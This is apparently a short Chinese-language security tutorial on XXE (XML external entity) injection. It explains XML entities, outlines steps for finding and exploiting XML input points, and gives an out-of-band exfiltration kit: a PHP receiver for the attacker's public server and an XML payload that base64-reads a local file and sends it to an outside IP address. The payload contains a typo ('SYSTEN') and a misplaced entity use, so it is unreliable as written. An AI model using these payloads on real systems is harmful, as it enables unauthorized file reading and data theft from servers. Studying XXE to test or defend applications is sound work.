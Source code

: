 # XXE实体注入

> 日期：2022/02/13

利用xml的外部实体去访问内网/本机的文件

## 了解xml

```xml
<!-- 声明版本 -->
<?xml version="1.0"?>

<!-- 文档类型定义 -->
<!DOCTYPE abc [
        <!-- 声明实体(可理解为变量)，功能：（使用file协议加载文件内容，暂存到test1中） -->
        <!ENTITY test1 SYSTEM "file://c:/1.txt">
]>

<!-- 引用test1的值 -->
<abc>&test1;</abc>
```

## 漏洞利用流程

1. 抓包或审计开源代码，寻找带xml的传参点
2. - 尝试引起报错，得到泄露的文件路径
   - 尝试填写网站常用路径，系统敏感路径
3. 将恶意xml注入传参点

## xxe数据接收平台

为了导出目标服务器敏感信息，我们需要一台公网服务器部署**数据接收平台**接收数据

- **save.php**（运行在自己的公网服务器）

```php
<?php 
// 将get请求参数a的值追加储存到本地result.txt
file_put_contents('result.txt',$_GET['a'],FILE_APPEND);
```

- **scanFile.xml**（通过传参点发送到目标服务器）

```xml
<?xml version="1.0"?>
<!DOCTYPE ABC [
        <!ENTITY % data SYSTEM 'php://filter/read=convert.base64-encode/resource=c:/1.txt'>
        <!ENTITY % sendToMyServer SYSTEN 'http://123.123.123.123/xxe/save.php?a=%data;'> 
]>
<ABC>%data; %sendToMyServer;</ABC>
```

scanFile.xml解析流程：
1. php伪协议获取内容，暂存到实体data中（伪协议功能：从系统读取文件->base64转码）
2. sendToMyServer实体执行流程：将data中的数据，通过http传递到外网服务器
